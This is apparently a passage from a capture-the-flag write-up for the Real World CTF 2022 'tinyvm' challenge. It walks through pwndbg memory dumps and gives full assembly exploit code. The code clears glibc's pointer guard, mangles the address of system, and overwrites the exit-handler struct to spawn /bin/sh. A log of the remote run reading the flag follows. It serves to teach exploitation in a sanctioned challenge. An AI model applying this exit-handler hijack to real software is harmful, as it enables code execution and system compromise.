pwndbg> tele 0x7f4a9f284740 0x40
00:0000│  0x7f4a9f284740 ◂— 0x7f4a9f284740
01:0008│  0x7f4a9f284748 —▸ 0x7f4a9f285160 ◂— 0x1
02:0010│  0x7f4a9f284750 —▸ 0x7f4a9f284740 ◂— 0x7f4a9f284740
03:0018│  0x7f4a9f284758 ◂— 0x0
04:0020│  0x7f4a9f284760 ◂— 0x0
05:0028│  0x7f4a9f284768 ◂— 0x868b6bf393ba8900
06:0030│  0x7f4a9f284770 ◂— 0x45ec9e616a9ffde0
07:0038│  0x7f4a9f284778 ◂— 0x0
... ↓     56 skipped
pwndbg> canary
AT_RANDOM = 0x7fffce4f00c9 # points to (not masked) global canary value
Canary    = 0x868b6bf393ba8900 (may be incorrect on != glibc)
Found valid canaries on the stacks:
00:0000│  0x7fffce4efce8 ◂— 0x868b6bf393ba8900
00:0000│  0x7fffce4efd48 ◂— 0x868b6bf393ba8900
00:0000│  0x7fffce4efed8 ◂— 0x868b6bf393ba8900
```

Value at `0x7f4a9f284770` is our secret value. Yes - it is next to stack cookie, and we can easily read it because our vm stack is allocated just before page which contains the secret, but... do we really need to read it? The answer is "no" - we can overwrite it with 0, so `xor` instruction in `PTR_DEMANGLE` snippet will do nothing, so the situation is even better! We can call our function and pass the argument to it. All we need to do is to set `fn` (we need to rotate it (`rol`) by 0x11 first) and `args` struct members in existing `exit_function` struct or create our own. Both ways are easy to implement. I've decided to go with the first option because I see that there is already defined exit hook (output truncated):

```c
pwndbg> p __exit_funcs
$2 = (struct exit_function_list *) 0x7f4a9f4a1f00 <initial>
pwndbg> p initial
$3 = {
  next = 0x0,
  idx = 0x1,
  fns = {{
      flavor = 0x4,
      func = {
        at = 0xc257eba67b408bd9,
        on = {
          fn = 0xc257eba67b408bd9,
          arg = 0x0
        },
        cxa = {
          fn = 0xc257eba67b408bd9,
          arg = 0x0,
          dso_handle = 0x0
        }
      }
    }, {
}
```


There is one caveat here - the VM does not have `rol` opcode, so we need to implement it manually. Remember that we have 64bit address in two 32bit registers, so we need to do `rol` on our own. Here is my quick & dirty implementation:

```asm
setbit1:
	cmp ecx, 0
	je set0_1
	mov ecx, 1
set0_1:
	ret

setbit2:
	cmp edx, 0
	je set0_2
	mov edx, 1
set0_2:
	ret

rol: 
	mov edi, 0

	rol_loop:
		mov ecx, eax
		and ecx, 0x80000000
		call setbit1
		shl eax, 1

		mov edx, ebx
		and edx, 0x80000000
		call setbit2
		shl ebx, 1

		or eax, edx
		or ebx, ecx

		inc edi
		cmp edi, esi
		jl rol_loop
	ret
```

Function takes three arguments in three different registers:
- `eax` - higher 32 bits of address you want to rotate
- `ebx` - lower 32 bits of address you want to rotate
- `esi` - number of rotations

It uses vm's stack also, so it has to be writable. 

Now we have everything to write the final exploit, so the steps are following:
- overwrite `fs:[0x30]` with 0
- calculate address of `system` and store it in the registers
- do `rol(0x11)` on stored address
- find address of `/bin/sh` string in libc and store it in the registers
- write mangled `system` addr to `fn` field of struct called `initial`
- write address of `/bin/sh` string to `arg` field of struct called `initial`
- run the exploit


Final exploit looks like this:

```asm
# move sp to start of libc
add esp, 0x3e03ff0
mov ebp, esp

add esp, 0x219050 # GOT calloc leak
pop r08
sub r08, 0x28080
pop r09
# libc base in r9 << 32 | r8


# clear fs:0x30
mov esp, ebp
sub esp, 0x2888
push 0
push 0


# craft system addr
mov eax, r09
mov ebx, r08
add ebx, 0x50d60 

# rol system addr by 0x11 (make vm stack writable)
sub esp, 0x1000
mov esi, 0x11
call rol
add esp, 0x1000
prn ebx
prn eax
jmp write_payload

// rol function implementation skipped


write_payload:

# move esp to `initial`
mov esp, ebp
add esp, 0x21af20
add esp, 8

# save /bin/sh to `arg` field
mov edx, r08
add edx, 0x1d8698
push r09
push edx

# save mangled system addr to `at` field
push eax
push ebx
```

### Running the exploit

```c
➜  /media/sf_D_DRIVE/rwctf/tinyvm git:(master) ✗ ./solve.py REMOTE
[*] '/media/sf_D_DRIVE/rwctf/tinyvm/bin/tvmi'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 198.11.180.84 on port 6666: Done
[*] Switching to interactive mode
 $ cat /flag
rwctf{A_S1gn_In_CHllenge}
```

All files can be found [here](https://github.com/rivit98/ctf-writeups/tree/master/realworld_ctf_2022/tinyvm).

## Summary

Overall, this was a nice challenge, and it wasn't hard. The main takeaway is that libc GOT can be used to call arbitrary code because `printf` function is using some of GOT entries internally. 
